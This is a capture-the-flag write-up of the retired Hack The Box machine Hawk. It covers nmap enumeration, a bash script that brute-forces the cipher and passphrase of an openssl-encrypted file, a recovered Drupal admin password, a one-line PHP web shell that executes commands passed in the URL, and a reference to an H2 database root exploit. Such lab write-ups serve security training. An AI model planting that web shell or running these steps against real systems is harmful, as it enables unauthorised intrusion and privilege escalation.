 ```yaml
---
layout: post
title: "Hawk: Hack The Box Walkthrough"
subtitle: "When I bestride him, I soar; I am a hawk."
date: 2018-12-02 08:34:55 +0000
last_modified_at: 2018-12-09 08:24:05 +0000
category: Walkthrough
tags: ["Hack The Box", Hawk, retired]
comments: true
image:
  feature: hawk-htb-walkthrough.jpg
  credit: Prawny / Pixabay
  creditlink: https://pixabay.com/en/vintage-japanese-watercolour-1829844/
---
```


This post documents the complete walkthrough of Hawk, a retired vulnerable [VM][1] created by [mrh4sh][2], and hosted at [Hack The Box][3]. If you are uncomfortable with spoilers, please stop reading now.
{: .notice}

<!--more-->

### Background

Hawk is a retired vulnerable VM from Hack The Box.

### Information Gathering

Let’s start with a `nmap` scan to establish the available services in the host.

```
# nmap -T5 -n -v -Pn -p- -A --reason -oN nmap.txt 10.10.10.102
...
PORT     STATE SERVICE       REASON         VERSION
21/tcp   open  ftp           syn-ack ttl 63 vsftpd 3.0.3
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_drwxr-xr-x    2 ftp      ftp          4096 Jun 16 22:21 messages
| ftp-syst:
|   STAT:
| FTP server status:
|      Connected to ::ffff:10.10.13.108
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 3
|      vsFTPd 3.0.3 - secure, fast, stable
|_End of status
22/tcp   open  ssh           syn-ack ttl 63 OpenSSH 7.6p1 Ubuntu 4 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   2048 e4:0c:cb:c5:a5:91:78:ea:54:96:af:4d:03:e4:fc:88 (RSA)
|   256 95:cb:f8:c7:35:5e:af:a9:44:8b:17:59:4d:db:5a:df (ECDSA)
|_  256 4a:0b:2e:f7:1d:99:bc:c7:d3:0b:91:53:b9:3b:e2:79 (ED25519)
80/tcp   open  http          syn-ack ttl 63 Apache httpd 2.4.29 ((Ubuntu))
| http-methods:
|_  Supported Methods: GET HEAD POST OPTIONS
| http-robots.txt: 36 disallowed entries (15 shown)
| /includes/ /misc/ /modules/ /profiles/ /scripts/
| /themes/ /CHANGELOG.txt /cron.php /INSTALL.mysql.txt
| /INSTALL.pgsql.txt /INSTALL.sqlite.txt /install.php /INSTALL.txt
|_/LICENSE.txt /MAINTAINERS.txt
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: Site doesn't have a title (text/html; charset=UTF-8).
5435/tcp open  tcpwrapped    syn-ack ttl 63
8082/tcp open  http          syn-ack ttl 63 H2 database http console
|_http-favicon: Unknown favicon MD5: 8EAA69F8468C7E0D3DFEF67D5944FF4D
| http-methods:
|_  Supported Methods: GET POST
|_http-title: H2 Console
9092/tcp open  XmlIpcRegSvc? syn-ack ttl 63
1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service :
SF-Port9092-TCP:V=7.70%I=7%D=11/28%Time=5BFF2AED%P=x86_64-pc-linux-gnu%r(N
SF:ULL,45E,"\0\0\0\0\0\0\0\x05\x009\x000\x001\x001\x007\0\0\0F\0R\0e\0m\0o
SF:\0t\0e\0\x20\0c\0o\0n\0n\0e\0c\0t\0i\0o\0n\0s\0\x20\0t\0o\0\x20\0t\0h\0
SF:i\0s\0\x20\0s\0e\0r\0v\0e\0r\0\x20\0a\0r\0e\0\x20\0n\0o\0t\0\x20\0a\0l\
SF:0l\0o\0w\0e\0d\0,\0\x20\0s\0e\0e\0\x20\0-\0t\0c\0p\0A\0l\0l\0o\0w\0O\0t
SF:\0h\0e\0r\0s\xff\xff\xff\xff\0\x01`\x05\0\0\x01\xd8\0o\0r\0g\0\.\0h\x00
SF:2\0\.\0j\0d\0b\0c\0\.\0J\0d\0b\0c\0S\0Q\0L\0E\0x\0c\0e\0p\0t\0i\0o\0n\0
SF::\0\x20\0R\0e\0m\0o\0t\0e\0\x20\0c\0o\0n\0n\0e\0c\0t\0i\0o\0n\0s\0\x20\
SF:0t\0o\0\x20\0t\0h\0i\0s\0\x20\0s\0e\0r\0v\0e\0r\0\x20\0a\0r\0e\0\x20\0n
SF:\0o\0t\0\x20\0a\0l\0l\0o\0w\0e\0d\0,\0\x20\0s\0e\0e\0\x20\0-\0t\0c\0p\0
SF:A\0l\0l\0o\0w\0O\0t\0h\0e\0r\0s\0\x20\0\[\x009\x000\x001\x001\x007\0-\x
SF:001\x009\x006\0\]\0\n\0\t\0a\0t\0\x20\0o\0r\0g\0\.\0h\x002\0\.\0m\0e\0s
SF:\0s\0a\0g\0e\0\.\0D\0b\0E\0x\0c\0e\0p\0t\0i\0o\0n\0\.\0g\0e\0t\0J\0d\0b
SF:\0c\0S\0Q\0L\0E\0x\0c\0e\0p\0t\0i\0o\0n\0\(\0D\0b\0E\0x\0c\0e\0p\0t\0i\
SF:0o\0n\0\.\0j\0a\0v\0a\0:\x003\x004\x005\0\)\0\n\0\t\0a\0t\0\x20\0o\0r\0
SF:g\0\.\0h\x002\0\.\0m\0e\0s\0s\0a\0g\0e\0\.\0D\0b\0E\0x\0c\0e\0p\0t\0i\0
SF:o\0n\0\.\0g\0e\0t\0\(\0D\0b\0E\0x\0c\0e\0p\0t\0i\0o\0n\0\.\0j\0a\0v\0a\
SF:0:\x001\x007\x009\0\)\0\n\0\t\0a\0t\0\x20\0o\0r\0g\0\.\0h\x002\0\.\0m\0
SF:e\0s\0s\0a\0g\0e\0\.\0D\0b\0E\0x\0c\0e\0p\0t\0i\0o\0n\0\.\0g\0e\0t\0\(\
SF:0D\0b\0E\0x\0c\0e\0p\0t\0i\0o\0n\0\.\0j\0a\0v\0a\0:\x001\x005\x005\0\)\
SF:0\n\0\t\0a\0t\0\x20\0o\0r\0g\0\.\0h\x002\0\.\0m\0e\0s\0s\0a\0g\0e\0\.\0
SF:D\0b\0E\0x\0c\0e\0p\0t\0i\0o\0n\0\.\0g\0e\0t\0\(\0D\0b\0E\0x\0c\0e\0p\0
SF:t\0i\0o\0n\0\.\0j\0a\0v\0a\0:\x001\x004\x004\0\)\0\n\0\t\0a\0t\0\x20\0o
SF:\0r");
```

Going the `ftp` route reveals a `messages` directory that contains a hidden file `.drupal.txt.enc`. The file is encrypted by `openssl enc` as characterized by `Salted__` header.

<a class="image-popup">
![0b315a7f.png](/assets/images/posts/hawk-htb-walkthrough/0b315a7f.png)
</a>

### Decryption of AES-256-CBC

I'm guessing the password or passphrase to decrypt the file must be simple. As such, I wrote the following script to automate the decryption of the file by going through a wordlist.

<div class="filename"><span>decrypt.sh</span></div>

```bash
#!/bin/bash

CIPHERS=$1
FILE=$2
PASS=$3

for c in $(cat $CIPHERS); do
  openssl enc $c -d -a -salt -in $FILE -pass pass:"$PASS" &>/dev/null
  if [ $? -eq 0 ]; then
    d="$(openssl enc $c -d -a -salt -in $FILE -pass pass:$PASS 2>/dev/null)"
    echo "[+] Trying $c with '$PASS'..."
    printf "%s\n\n" "$d"
  fi
done
```

Since I don't know the cipher used, the script runs through all the available ciphers in `openssl enc`. Let's run the script.

```
# parallel -j4 ./decrypt.sh ciphers.txt .drupal.txt.enc "{}" < /usr/share/seclist/Passwords/darkweb-top1000.txt | tee decrypted.txt
```

<a class="image-popup">
![083d4843.png](/assets/images/posts/hawk-htb-walkthrough/083d4843.png)
</a>

### Drupal 7.58

This version is not affected by Drupalgeddon2. The credentials to the administrative interface is (`admin:PencilKeyboardScanner123`)

In order to write PHP code as pages in Drupal 7, the PHP Filter module needs to be enabled. Once you have done that, create a PHP page containing the following code:

```php
<?php echo shell_exec($_GET['cmd']); ?>
```

Simple as it looks, the code allows us to execute remote commands as `www-data`. Well, now we can run a reverse shell back to us.

I have a preference for Perl reverse shell because Perl is, more often than not, available in Linux.

### H2 1.4.196 Remote Code Execution

During enumeration of the `www-data` account, I notice the H2 database is ran as `root`. Simply run the proof-of-concept code from EDB-ID [45506](https://www.exploit-db.com/exploits/45506) to get a `root` shell.

[1]: https://www.hackthebox.eu/home/machines/profile/146
[2]: https://www.hackthebox.eu/home/users/profile/2570
[3]: https://www.hackthebox.eu/
